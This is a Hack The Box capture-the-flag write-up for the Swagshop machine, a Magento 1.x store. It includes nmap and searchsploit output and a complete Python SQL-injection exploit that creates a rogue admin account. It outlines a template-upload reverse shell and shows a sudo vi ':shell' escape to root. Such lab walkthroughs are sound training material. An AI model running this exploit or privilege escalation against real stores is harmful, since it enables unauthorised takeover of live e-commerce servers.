 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: Hack The Box
tags: 
classes: wide
---
```

### [Hack The Box - Swagshop]()

## Enumeration
Lets start by enumerating

### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a web Magento service running on port 80. Let enumerate further
()
### Directory Buster
`dirb` found an admin login page
[img1](/assets/images/htbimg/swag1.png)

## Vulnerability

### Searchsploit
```bash
root@kali:~# searchsploit magento
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
``` 
I had to try most of these to find the right one. The issue is a time based `sql injection`
[Exploit](https://www.exploit-db.com/exploits/37977)

## Exploitation
I modified the python script to correct the url and added a user named `joe123` with password `forme`

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES 
(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
## Usershell
 searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
 1. change developer settings
 2. upload file
 3. create template
 4. start netcat
 5. preview the template
 6. and we have a shell
 
## Priv esc
## Enum again for root
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[00;33m[+] Possible sudo pwnage![00m
/usr/bin/vi

```
so lets try pwning using vim

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:shell  
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
ls -la
cat root.txt
c2b087d66e14********************

   ___ ___
 /| |/|\| |\
/_| Â´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
                   
```
## Solved